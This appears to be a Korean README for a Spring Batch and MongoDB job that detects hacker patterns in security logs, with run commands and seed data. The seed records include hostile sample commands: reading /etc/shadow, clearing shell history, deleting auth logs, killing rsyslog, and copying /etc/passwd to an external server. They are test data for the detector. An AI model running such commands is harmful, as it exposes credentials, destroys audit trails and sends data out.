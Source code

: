 # Hacker Pattern Detection (Spring Batch + MongoDB)

보안 로그(`security_logs`)에서 해커 패턴을 탐지하는 Spring Batch 모듈입니다.  
MongoDB에서 특정 날짜(`searchDate`)의 로그를 읽어와 패턴 분석 후 라벨을 부여하고, 결과를 로그로 출력합니다.

## 폴더 구성
- `src/main/kotlin/.../HackerPatternDetectionJob.kt` : 배치 잡/스텝/리더/프로세서/라이터 설정
- `src/main/resources/application.yml` : Spring & MongoDB 설정
- `compose.yaml` : 로컬 MongoDB 실행용 Docker Compose 파일

## 요구 사항
- Docker / Docker Compose
- JDK 17+ (Spring Boot 3.x 기준)
- Gradle 8.x

## 로컬 MongoDB 실행
```bash
# 모듈 루트에서
docker compose up -d
# 상태 확인
docker ps
docker compose logs -f mongodb

# 컨테이너 중지
docker compose down

# 데이터 볼륨까지 삭제 (DB 데이터 완전 삭제)
docker compose down -v

# 방법 1) bootRun로 실행 (예: 2025-09-10 대상으로 실행)
./gradlew :mongo-batch:bootRun --args='--spring.batch.job.name=detectHackerPatternJob searchDate=2025-09-10'

# 방법 2) fat jar 실행
./gradlew clean build
java -jar build/libs/*-SNAPSHOT.jar --spring.batch.job.name=detectHackerPatternJob searchDate=2025-09-10

# 데이터삽입

```
1. use cyberops
2. 데이터삽입

   let today = new Date().toISOString().split('T')[0] + 'T';

db.security_logs.insertMany([
{
attackerId: "shadow_walker",
command: "ssh admin@192.168.1.200",
timestamp: new Date(today + "03:15:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "phantom_blade",
command: "telnet 10.0.0.50 22",
timestamp: new Date(today + "03:25:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "dark_reaper",
command: "ssh root@172.16.1.100",
timestamp: new Date(today + "03:30:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "void_hunter",
command: "sudo cat /etc/shadow",
timestamp: new Date(today + "03:35:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "byte_assassin",
command: "su root",
timestamp: new Date(today + "03:45:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "system_slayer",
command: "sudo -i",
timestamp: new Date(today + "03:50:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "code_destroyer",
command: "history -c",
timestamp: new Date(today + "03:55:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "network_nightmare",
command: "rm /var/log/auth.log",
timestamp: new Date(today + "04:05:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "data_devourer",
command: "killall rsyslog",
timestamp: new Date(today + "04:15:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "digital_demon",
command: "scp /etc/passwd user@external.server.com:/tmp/",
timestamp: new Date(today + "04:20:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "cyber_reaper",
command: "rsync -av /home/data/ backup@remote:/backup/",
timestamp: new Date(today + "04:25:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "null_terminator",
command: "ls -la",
timestamp: new Date(today + "04:30:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "root_ravager",
command: "cd /home/user",
timestamp: new Date(today + "04:35:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "packet_predator",
command: "grep 'error' /var/log/messages",
timestamp: new Date(today + "04:40:00Z"),
label: "PENDING_ANALYSIS"
},
{
attackerId: "kernel_killer",
command: "ps aux | grep java",
timestamp: new Date(today + "04:45:00Z"),
label: "PENDING_ANALYSIS"
}
])
```